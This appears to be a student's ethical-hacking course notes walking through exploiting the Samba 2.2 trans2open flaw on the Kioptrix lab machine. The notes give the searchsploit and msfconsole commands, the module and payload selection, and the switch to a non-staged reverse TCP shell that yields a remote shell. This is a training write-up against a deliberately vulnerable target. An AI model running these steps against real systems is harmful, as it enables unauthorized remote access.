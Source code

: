 ___
We will be gaining the shell of our victim machine the Kioptrix.
We already know about Samba 2.2 version from our Recon so we will start from there 
```
searchsploit samba 2.2 
```

![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%205%20-%20Exploitation%20Basics/assests/Pasted%20image%2020250906001717.png)

We will be finding payload for trans2open in Metasploit because it aligns with our goal which is to gain remote access which i have mentioned in the screenshot above.
Now we will open Metasploit 
```
msfconsole
```

![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%205%20-%20Exploitation%20Basics/assests/Pasted%20image%2020250906002038.png)

We will be using #1 because we know our system is linux as per our Recon so we will choose that 

```
use 1
show options
set rhosts 192.168.15.8
exploit
```

![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%205%20-%20Exploitation%20Basics/assests/Pasted%20image%2020250906002334.png)

We started the exploit but it kept failing and the it was just trying so we know its not gonna work for us so we need to find new payload for us.
This payload is Staged so now lets try to use which is Non-staged.
```
show options
show payloads
```

![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%205%20-%20Exploitation%20Basics/assests/Pasted%20image%2020250906002651.png)
We will be using the shell_reverse_tcp because its not Staged.

```
use 34
show options
exploit
```

![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%205%20-%20Exploitation%20Basics/assests/Pasted%20image%2020250906002919.png)
We got the shell!!!!